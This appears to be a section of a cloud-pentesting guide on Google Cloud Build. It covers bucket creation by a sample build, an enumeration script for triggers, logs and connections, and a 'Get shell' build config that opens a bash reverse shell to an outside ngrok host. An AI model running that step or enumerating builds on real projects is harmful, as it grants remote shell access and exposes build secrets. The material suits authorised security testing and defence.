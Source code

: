 Sometimes Cloud Build will **generate a new storage to store the files for the trigger**. This happens for example in the example that GCP offers with:

```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
  cd cloud-console-sample-build && \
  gcloud builds submit --config cloudbuild.yaml --region=global
```

A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is created to store a `.tgz` with the files to be used.

### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

Install gcloud inside cloud build:

```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud 
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done
```